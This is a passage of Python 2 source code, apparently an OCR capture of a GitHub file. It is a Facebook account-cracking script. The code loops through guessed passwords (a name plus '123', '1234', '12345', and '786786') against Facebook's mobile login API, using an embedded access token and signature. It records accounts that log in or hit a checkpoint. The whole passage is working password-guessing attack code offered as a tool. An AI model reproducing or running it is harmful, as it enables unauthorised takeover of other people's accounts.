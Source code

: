 				oks.append(user+pass1)
			else:
				if "www.facebook.com" in q["error_msg"]:
					print "[Checkpoint] " + user + " | " + pass1
					cps = open("checkpoint.txt", "a")
					cps.write(user+"|"+pass1+"\n")
					cps.close()
					cpb.append(user+pass1)
				else:
					pass2 = c+"123"
					data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if "access_token" in q:
						print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass2
						oks.append(user+pass2)
					else:
						if "www.facebook.com" in q["error_msg"]:
							print "[Checkpoint] " + user + " | " + pass2
							cps = open("checkpoint.txt", "a")
							cps.write(user+"|"+pass2+"\n")
							cps.close()
							cpb.append(user+pass2)
						else:
							pass3 = c+"1234"
							data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass3 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
							q = json.load(data)
							if "access_token" in q:
								print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass3
								oks.append(user+pass3)
							else:
								if "www.facebook.com" in q["error_msg"]:
									print "[Checkpoint] " + user + " | " + pass3
									cps = open("checkpoint.txt", "a")
									cps.write(user+"|"+pass3+"\n")
									cps.close()
									cpb.append(user+pass3)
								else:
									pass4 = c+"12345"
									data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass4 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if "access_token" in q:
										print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass4
										oks.append(user+pass4)
									else:
										if "www.facebook.com" in q["error_msg"]:
											print "[Checkpoint] " + user + " | " + pass4
											cps = open("checkpoint.txt", "a")
											cps.write(user+"|"+pass4+"\n")
											cps.close()
											cpb.append(user+pass4)
										else:
											pass5 = "786786"
											data = br.open("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + user + "&locale=en_US&password=" + pass5 + "&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if "access_token" in q:
												print "\x1b[1;92m[Successful]\x1b[0m " + user + " | " + pass5